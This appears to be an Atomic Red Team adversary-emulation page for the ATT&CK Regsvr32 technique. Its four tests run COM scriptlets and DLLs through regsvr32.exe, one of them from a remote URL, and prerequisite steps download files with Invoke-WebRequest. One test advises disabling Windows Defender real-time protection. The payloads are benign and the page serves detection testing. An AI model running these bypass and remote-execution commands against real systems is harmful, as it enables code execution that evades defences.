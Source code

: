 # T1218.010 - Regsvr32
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/010)
<blockquote>Adversaries may abuse Regsvr32.exe to proxy execution of malicious code. Regsvr32.exe is a command-line program used to register and unregister object linking and embedding controls, including dynamic link libraries (DLLs), on Windows systems. Regsvr32.exe is also a Microsoft signed binary. (Citation: Microsoft Regsvr32)

Malicious usage of Regsvr32.exe may avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of allowlists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe can also be used to specifically bypass application control using functionality to load COM scriptlets to execute DLLs under user permissions. Since Regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed. (Citation: LOLBAS Regsvr32) This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments. (Citation: Carbon Black Squiblydoo Apr 2016) (Citation: FireEye Regsvr32 Targeting Mongolian Gov)

Regsvr32.exe can also be leveraged to register a COM Object used to establish persistence via [Component Object Model Hijacking](https://attack.mitre.org/techniques/T1546/015). (Citation: Carbon Black Squiblydoo Apr 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Regsvr32 local COM scriptlet execution](#atomic-test-1---regsvr32-local-com-scriptlet-execution)

- [Atomic Test #2 - Regsvr32 remote COM scriptlet execution](#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

- [Atomic Test #3 - Regsvr32 local DLL execution](#atomic-test-3---regsvr32-local-dll-execution)

- [Atomic Test #4 - Regsvr32 Registering Non DLL](#atomic-test-4---regsvr32-registering-non-dll)


<br/>

## Atomic Test #1 - Regsvr32 local COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | Path | PathToAtomicsFolder&#92;T1218.010&#92;src&#92;RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | Path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | String | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{filename} scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.sct must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path #{filename}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{filename}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}"
```




<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| url | URL to hosted sct file | Url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | Path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | String | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll
```






<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_name | Name of DLL to Execute, DLL Should export DllRegisterServer | Path | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll|
| regsvr32path | Default location of Regsvr32.exe | Path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | String | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( #{regsvr32path}\#{regsvr32name} /s #{dll_name} )
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_name}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_name}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
<br/>

## Atomic Test #4 - Regsvr32 Registering Non DLL
Replicating observed Gozi maldoc behavior registering a dll with an altered extension

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_file | Path to renamed dll file to be registered | Path | %temp%&#92;shell32.jpg|
| regsvr32path | Default location of Regsvr32.exe | Path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | String | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s #{dll_file}
```

#### Cleanup Commands:
```cmd
#{regsvr32path}\#{regsvr32name} /U /s #{dll_file}
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Test requires a renamed dll file
##### Check Prereq Commands:
```cmd
if exist #{dll_file} ( exit 0 ) else ( exit 1 ) 
```
##### Get Prereq Commands:
```cmd
copy "C:\Windows\System32\shell32.dll" "#{dll_file}"
```




<br/>
